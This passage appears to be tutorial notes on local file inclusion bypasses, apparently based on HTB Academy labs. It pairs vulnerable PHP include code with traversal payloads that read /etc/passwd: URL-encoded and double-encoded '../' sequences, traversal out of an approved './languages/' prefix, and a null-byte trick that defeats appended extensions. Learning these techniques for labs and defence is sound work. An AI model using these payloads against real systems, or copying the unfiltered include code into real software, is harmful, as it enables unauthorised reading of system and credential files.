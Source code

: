 **HTB Academy Lab Example:**
```bash
# Basic bypass test
http://target.com/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# Double encoding test  
http://target.com/index.php?language=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### 3. Approved Path Bypasses

**Vulnerable Code:**
```php
<?php
if (strpos($_GET['language'], '../') !== false) {
    die('Hacking attempt detected!');
}
include("./languages/" . $_GET['language'] . ".php");
?>
```

**Bypass Technique:**
```bash
# Use approved path prefix then traverse out
./languages/../../../../etc/passwd

# The path starts with approved "./languages/" then traverses back
```

**HTB Academy Example:**
```bash
# Approved path bypass
http://target.com/index.php?language=./languages/../../../../etc/passwd

# Alternative patterns
./languages/../../../etc/passwd
/var/www/html/languages/../../../../etc/passwd
```

### 4. Appended Extension Bypasses

#### Null Byte Injection (PHP < 5.3.4)

**Vulnerable Code:**
```php
<?php
include($_GET['file'] . ".php");
?>
```

**Bypass Technique:**
```bash
# Null byte terminates string in C functions
/etc/passwd%00

# Application tries to include: /etc/passwd%00.php
# But null byte stops processing at /etc/passwd
```
